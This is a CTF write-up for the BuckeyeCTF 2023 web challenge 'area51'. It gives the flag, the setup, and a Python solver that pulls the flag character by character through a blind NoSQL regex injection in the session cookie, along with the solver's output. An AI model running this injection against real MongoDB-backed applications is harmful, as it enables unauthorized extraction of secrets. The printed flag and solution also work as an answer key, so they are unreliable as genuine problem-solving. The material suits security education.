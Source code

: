 # area51

## Description

> Area51 Raid Luxury Consultation Services
>
> <https://area51.chall.pwnoh.io>
>
> Downloads: dist.zip

## Flag

bctf{tH3yR3_Us1nG_Ch3M1CaS_T0_MaK3_Th3_F0gS_GAy}

## Setup

```console
root@kali:~/ctf/buckeyectf-2023/web/area51# tree dist
dist
├── area51
│   ├── index.js
│   ├── package.json
│   ├── package-lock.json
│   ├── routes
│   │   └── index.js
│   ├── static
│   │   ├── images
│   │   │   └── pardon.webp
│   │   └── js
│   │       └── submit.js
│   ├── User.js
│   └── views
│       ├── dashboard.ejs
│       └── index.ejs
├── Dockerfile
├── entrypoint.sh
├── init_users.js
└── wait_for_mongo.js

7 directories, 13 files
```

```bash
cd dist
docker build -t bctf/area51 .
docker run --name area51 --rm -p 80:80 bctf/area51
```

## Solution

There is NoSQLi vulnerability in cookie.

solver-area51.py

```python
import requests
import sys

s = requests.Session()

if len(sys.argv) == 2:
    BASE_URL = sys.argv[1]
else:
    BASE_URL = "http://localhost/"

possible = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$'(),-/:;<=>@[\\]^_`{|}~"

session = "bctf{"

# flag length is guess
for i in range(50):
    for c in possible:
        trying_session = session + c
        print(f"{trying_session}", end="\r", flush=True)

        cookie = f'session={{"token":{{"$regex":"{trying_session}.*"}}}}'

        headers = {"Cookie": cookie}

        resp = s.get(f"{BASE_URL}", headers=headers)

        if "Pardon our dust" in resp.text:
            session = trying_session
            print()

            if c == "}":
                print("end")
                exit(0)

            break
```

```console
root@kali:~/ctf/buckeyectf-2023/web/area51# python3 solver-area51.py https://area51.chall.pwnoh.io/
bctf{t
bctf{tH
(snip)
bctf{tH3yR3_Us1nG_Ch3M1CaS_T0_MaK3_Th3_F0gS_GAy}
end
```
